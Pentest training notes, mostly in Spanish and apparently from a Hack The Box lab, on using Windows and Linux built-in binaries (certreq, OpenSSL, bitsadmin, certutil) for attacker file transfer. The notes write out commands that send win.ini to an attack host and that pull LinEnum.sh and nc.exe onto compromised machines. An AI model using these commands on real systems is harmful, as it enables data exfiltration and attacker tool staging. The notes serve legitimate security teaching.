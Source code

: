 La frase "Vivir de la tierra" fue acuñada por Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) y Matt Graeber [@mattifestation](https://twitter.com/mattifestation) en [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw) . El término LOLBins (Living off the Land binarios) surgió de una discusión en Twitter sobre cómo llamar a los binarios que un atacante puede usar para realizar acciones más allá de su propósito original. Actualmente hay dos sitios web que agregan información sobre los binarios de Living off the Land:

- [Proyecto LOLBAS para binarios de Windows](https://lolbas-project.github.io)
- [GTFOBins para binarios de Linux](https://gtfobins.github.io/)

Los binarios de Living off the Land se pueden utilizar para realizar funciones tales como:
- Descargar
- Subir
- Ejecución de comandos
- Lectura de archivos
- Escritura de archivo
- Bypasses

## Usando el Proyecto LOLBAS y GTFOBins
[LOLBAS para Windows](https://lolbas-project.github.io/#) y [GTFOBins para Linux](https://gtfobins.github.io/) son sitios web donde podemos buscar binarios que podemos utilizar para diferentes funciones.

### LOLBÁS
Para buscar funciones de descarga y carga en [LOLBAS](https://lolbas-project.github.io/) podemos usar `/download` o `/upload`. Usemos [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) como ejemplo.
Necesitamos escuchar en un puerto de nuestro host de ataque el tráfico entrante usando Netcat y luego ejecutar certreq.exe para cargar un archivo.

```js
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```
#### Archivo recibido en nuestra sesión de Netcat
```js
p314d0@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Si recibe un error al ejecutar `certreq.exe`, es posible que la versión que estás utilizando no contenga el `-Post`parámetro. Puede descargar una versión actualizada [aquí](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) e intentarlo nuevamente.

### GTFOBins
Para buscar la función de descarga y carga en [GTFOBins para binarios de Linux](https://gtfobins.github.io/) , podemos usar `+file download` o `+file upload`.

Usemos [OpenSSL](https://www.openssl.org/) . Se instala con frecuencia y a menudo se incluye en otras distribuciones de software, y los administradores de sistemas lo utilizan para generar certificados de seguridad, entre otras tareas. OpenSSL se puede utilizar para enviar archivos "estilo nc". Necesitamos crear un certificado e iniciar un servidor en nuestro Pwnbox.

#### Crear Certificado
```js
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

#### Poner en marcha el Servidor en nuestro Pwnbox
```js
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

A continuación, con el servidor en ejecución, debemos descargar el archivo de la máquina comprometida.
#### Descargar archivo de la máquina comprometida
```js
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools
### Bitsadmin Download function
The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

#### File Download with Bitsadmin
```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

#### Download
```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Certutil
```js
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```


